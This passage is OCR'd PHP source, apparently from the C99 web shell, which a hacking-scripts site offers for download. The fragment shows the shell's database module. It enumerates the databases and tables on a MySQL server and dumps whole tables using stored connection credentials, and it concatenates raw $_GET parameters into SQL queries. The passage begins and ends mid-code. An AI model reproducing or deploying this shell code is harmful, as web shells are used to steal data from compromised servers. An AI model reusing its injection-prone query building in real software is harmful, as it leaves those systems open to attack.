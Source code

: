         echo("&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $_GET['table'] . "&p=" . $z . "'&gt;" . $z . "&lt;/a&gt; | ");
      }
    }
    elseif($_GET['table'] && $_GET['sqlf']){
      switch($_GET['sqlf']){
        case "dl": sqldownload();break;
        case "ins": sqlinsert();break;
        default: $_GET['sqlf'] = "";
      }
    }
    else{
      echo("&lt;table&gt;");
      $query = "SHOW TABLES FROM " . $_GET['db'];
      $dat = mysql_query($query, $sqlcon) or die(mysql_error());
      while ($row = mysql_fetch_row($dat)){
        echo("&lt;tr&gt;&lt;td&gt;&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $row[0] ."'&gt;" . $row[0] . "&lt;/a&gt;&lt;/td&gt;&lt;td&gt;[&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $row[0] ."&sqlf=dl'&gt;Download&lt;/a&gt;]&lt;/td&gt;&lt;/tr&gt;\n");
      }
      echo("&lt;/table&gt;");
    }
  }
  else{
    $dbs=mysql_list_dbs($sqlcon);
    while($row = mysql_fetch_object($dbs)) {
      echo("&lt;a href='?act=sql&db=" . $row-&gt;Database . "'&gt;" . $row-&gt;Database . "&lt;/a&gt;&lt;br&gt;\n");
    }
  }
  mysql_close($sqlcon);
}
function sqldownload(){ // Download sql file function
  @ob_flush;
  $sqlcon = @mysql_connect($_SESSION['sql_host'] . ':' . $_SESSION['sql_port'], $_SESSION['sql_user'], $_SESSION['sql_password']);
  mysql_select_db($_GET['db'], $sqlcon);
  $query = "SHOW COLUMNS FROM " . $_GET['table'];
  $result = mysql_query($query, $sqlcon) or die(mysql_error());
  $fields = array();
  while($row = mysql_fetch_assoc($result)){
    array_push($fields, $row['Field']);
    $i++;
  }
  $result = mysql_query("SELECT * FROM " . $_GET['table'], $sqlcon) or die(mysql_error());
  $num_rows = mysql_num_rows($result) or die(mysql_error());
  for($x=1;$x&lt;$num_rows;$x++){
    $out .= "(";
    for($i=0;$i&lt;count($fields);$i++){
      $out .= "'";
      $query = "SELECT " . $fields[$i] . " FROM " . $_GET['table'] . " WHERE " . $fields[0] . " = '" . $x . "'";
      $dat = mysql_query($query, $sqlcon) or die(mysql_error());
      while($row = mysql_fetch_row($dat)){
        if($row[0] == ""){
          $row[0] = "NULL";
        }
        if($i != count($fields)-1){
          $out .= str_replace("\r\n", "\\r\\n", $row[0]) . "', ";
        }
        else{
          $out .= $row[0]. "'";
        }
      }

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"